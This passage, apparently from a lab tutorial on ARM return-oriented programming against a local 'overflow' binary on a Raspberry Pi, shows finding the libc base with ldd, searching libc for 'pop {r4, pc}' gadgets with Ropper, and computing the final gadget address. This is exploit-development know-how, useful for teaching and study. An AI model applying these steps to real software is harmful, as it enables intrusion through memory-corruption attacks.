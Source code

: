 **Note**: For larger/complex program the output is much longer. In that case, it is better to filter using  `grep`.

```
$ ldd ./overflow | grep "libc.so.6"
    libc.so.6 => /lib/arm-linux-gnueabihf/libc.so.6 (0x76e47000)

```

The base address is required to obtain the final address of the gadgets.

### Address of the 1st gadget
First, let's find the address of **`pop {r4, pc}`** using Ropper.

```bash
pi@raspberrypi:~$ ropper --file /lib/arm-linux-gnueabihf/libc.so.6 --search "pop {r4, pc}"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop {r4, pc}

[INFO] File: /lib/arm-linux-gnueabihf/libc.so.6
0x00018164: pop {r4, pc}; 
0x000c4308: pop {r4, pc}; cmp r1, #2; strls r1, [r0, #0x10c]; movls r0, #0; movhi r0, #0x16; bx lr; 
0x0010d30c: pop {r4, pc}; cmp r2, #0; bne #0x10d320; mov r0, #1; bx lr; 
0x00114a90: pop {r4, pc}; ldr r3, [pc, #0x24]; add r3, pc, r3; ldr r3, [r3]; ldr r3, [r3]; blx r3; 
0x00114b5c: pop {r4, pc}; ldr r3, [pc, #0x28]; add r3, pc, r3; ldr r3, [r3]; ldr r3, [r3, #4]; blx r3; 
0x000c42d0: pop {r4, pc}; ldr r3, [r0, #0x10c]; mov r0, #0; str r3, [r1]; bx lr; 
0x000c3a80: pop {r4, pc}; ldrsh r3, [r0]; mov r0, #0; strh r3, [r1]; bx lr; 
0x000c3a40: pop {r4, pc}; mov r0, #0; bx lr; 
0x00114798: pop {r4, pc}; mov r0, #0; pop {r4, pc}; mov r0, #0; bx lr; 
0x000d16b4: pop {r4, pc}; mov r0, #1; bx lr; 
0x0008065c: pop {r4, pc}; mov r0, ip; bx lr; 
0x00077960: pop {r4, pc}; mov r0, r1; bx lr; 
0x00073904: pop {r4, pc}; mov r1, lr; bx r3; 
0x000f4d00: pop {r4, pc}; mvn r0, #0; bx lr; 
0x000f57f8: pop {r4, pc}; mvn r0, #0; pop {r4, pc}; mvn r0, #0; bx lr;
```

We need the first one. So the required offset address is $0x00018164$.

Now, let's add the offset with the base address:
```python
pi@raspberrypi:~$ python3
Python 3.7.3 (default, Dec 20 2019, 18:57:59) 
[GCC 8.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 
>>> hex(0x76e47000+0x00018164)
'0x76e5f164'
>>> 
```
So, our final address for the gadget `pop {r4, pc}` is $0x76e5f164$.

